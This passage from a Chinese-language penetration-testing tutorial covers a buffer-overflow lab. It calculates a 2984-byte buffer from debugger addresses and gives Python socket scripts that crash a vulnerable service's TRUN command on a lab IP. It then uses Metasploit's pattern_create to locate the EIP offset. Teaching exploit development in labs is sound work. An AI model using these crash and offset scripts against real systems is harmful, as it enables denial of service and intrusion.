 图 10.27：模糊测试开始时的初始内存

如果我们一直遍历到模糊测试 AAA 停止的地方，你会看到 `00ACFD98`，如 *图 10.28* 所示。请注意，这些地址会根据你在调试或反汇编可执行文件时使用的操作系统发生变化。

![](img/B17765_10_28.png)

图 10.28：模糊测试内存地址的结束

现在我们有了开始和结束地址，接下来让我们使用 `python3` 通过在终端运行 `python3`，并简单地输入 `0x00ACFD98`（内存地址的结束位置）和 `0x00ACF1F0`（内存地址的起始位置），如下所示。它应该会给我们提供缓冲区的长度：

```
─# python3                                                            
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x00ACFD98 - 0x00ACF1F0
2984 
```

在这种情况下，我们有一个 `2984` 的缓冲区长度。下一步是控制我们利用代码的执行。

## 控制应用程序的执行

我们现在已经知道了缓冲区的长度。下一步是找到正确的偏移量来控制 EIP。让我们编写一个快速的 Python 脚本，通过精确的长度连接到脆弱的服务器，这个长度会使服务器崩溃，保存文件为 `crash.py`，并在目标 IP 上运行：

```
import socket
s = socket.socket()
s.connect(("10.10.10.4",9999))
leng = 2984
payload = [b"TRUN /.:/",b"A"*leng]
payload = b"".join(payload)
s.send(payload)
s.close() 
```

下一步是使用 MSF 创建一个模式，通过定位到 `/usr/share/etasploit-framework/tools/exploit/` 文件夹，并在 Kali Linux 终端中运行 `./pattern_create -l 2984`。

你可以将生成的内容输出到文件中，也可以从终端复制它。或者，你可以通过在 Python 程序中添加另一个变量来使用它。这次我们将禁用缓冲区，并使用由攻击工具生成的长度为 `2984` 的模式：

```
import socket
s = socket.socket()
s.connect(("10.10.10.4",9999))
leng = 2984
payload = [b"TRUN /.:/",b"<PAYLOAD FROM PATTERNCREATE>"]
payload = b"".join(payload)
s.send(payload)
s.close() 
```
